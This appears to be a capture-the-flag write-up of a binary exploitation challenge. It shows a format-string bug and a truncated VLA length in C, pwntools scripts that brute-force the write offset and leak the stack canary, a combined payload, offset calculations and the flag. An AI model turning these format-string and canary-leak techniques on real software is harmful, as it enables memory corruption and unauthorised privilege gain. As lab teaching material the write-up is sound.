



# mmmm

## Description

Tags: _pwn_
Solved with: [Heisenkebab](https://github.com/Heisenkebab/)

## Recon

### Format string

The missing format string inside the printf allowed us to overwrite the struct `is_editor`
```c
puts("Hello ");
printf(user->username);

struct user_t
{
  int is_editor;
  char *username;
};
```

Rather than searching the offset manually we chose to use a brute forcing algorithm.
Not only to allocate the correct offset of the integer `is_editor`, but also to change it with `A%OFFSET$n` to `1`

```python
for i in range(1, 20):
    try:
        io = remote(HOST, PORT, ssl=True)
        io.recvuntil(b"What is your name?")
        io.sendline(bytes(f"A%{i}$n", "utf-8"))

        data = io.recvuntil(b"Enter a command:").decode()
        print(f"[offset {i}] {data}")

        io.close()

    except Exception as e:
        print(f"[offset {i}] error: {e}")
```




### Stack Canary

Stack canaries have distinctive characteristics:

- starts with 0x
- ends with null byte
- random each execution
- on x64, 8 bytes 

So we crafted a script that did exactly that:

```python
from pwn import *

for i in range(1, 40):
    try:
        # io = remote(HOST, PORT, ssl=True)
        io = process("./challenge")

        io.recvuntil(b"What is your name?")
        io.sendline(bytes(f"%{i}$p", "utf-8"))

        io.recvuntil(b"Hello")
        io.recvline()       # read \n
        line = io.recvline()

        if line.startswith(b"0x") and line.endswith(b"00\n"):
            print(f"[offset {i}] possible canary {line}")
        io.close()

    except Exception as e:
        print(f"[offset {i}] error: {e}")
```

After running the script a few times we could clearly see the canary is either at offset 29 or 37
Because those were the only numbers that matched the characteristics mentioned above 



### VLA

The next step is to exploit this poorly report length limiter

```c
puts("How long is the report?");
char report_length[64];
readInput(report_length, sizeof(report_length) - 1);
int length = atoi(report_length);

char report[length & 255];
memset(report, 0, sizeof(report));
```

The length is truncated to its (length & 0xff) for the VLA allocation, but memset still operates on the full integer size

## Exploitation

Combing the payload to get the [correct offset](./offset.py) and to get the [canary](./canary.py):

```
# %29$p leaks the canary value
# A makes the character count = 1
# %7$n writes 1 to is_editor (granting editor access)
io.sendline(b"%29$p A%7$n")
```

Calculate offsets using the known frame layout:

```
LENGTH = 600
vla_size_byte = LENGTH & 0xff           # 88
vla_alloc = round_up(88, 16)            # 96 (16-byte aligned)
frame_base = 0xd0 + vla_alloc           # 304

canary_off  = base - 0x18   # 280 bytes from buffer start to canary
retaddr_off = base + 0x08   # 312 bytes from buffer start to return address
```

## Flag

`CLA{my_v3ry_f1rst_pwn_c0mb1nation_challenge_apOyK74wUasE}`
